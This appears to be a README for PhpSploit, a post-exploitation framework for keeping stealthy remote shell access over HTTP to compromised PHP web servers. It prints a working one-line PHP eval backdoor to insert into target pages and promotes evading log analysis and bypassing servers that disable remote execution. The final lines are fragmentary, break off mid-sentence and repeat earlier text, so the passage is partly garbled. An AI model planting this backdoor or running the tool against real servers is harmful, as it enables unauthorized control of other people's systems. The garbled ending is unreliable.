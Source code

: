 ### PhpSploit: *Advanced post-exploitation framework* ###

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.

It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

#### Overview ####

The PhpSploit framework replaces classic PHP backdoor like "c99.php".

    - Ultra small Backdoor (~ 50 chars)
    - Nearly invisible by log analysis
    - Bypass PHP servers wich disables remote execution.
    - Supports GET and POST, independently from the backdoor.

#### Example usage ####

phpspoit \> **infect**
  
```py
[*] The following payload must be inserted in the target web page.
[*] Then adjust the TARGET setting to it in order to start the remote shell

==========================================
<?php @eval($_SERVER['HTTP_PHPSPL01T']);?>
==========================================`
```

**__phpsploit__** **>**
**__phpsploit__ >**

### Advanced Features ###

Very easy to get started, it is also highly configurable, and is designed
to meet all the needs to web security experts.

* Advanced tunnel based payload execution:


    - Uses advanced HTTP Headers filling methods.
    - Provides multi-paradygm payload compression.
    - Tu


The PhpSploit framework takes control over a remote PHP web server.
It replaces classic 

Phpsploit simulates a remote shell access through PHP.

It's first design
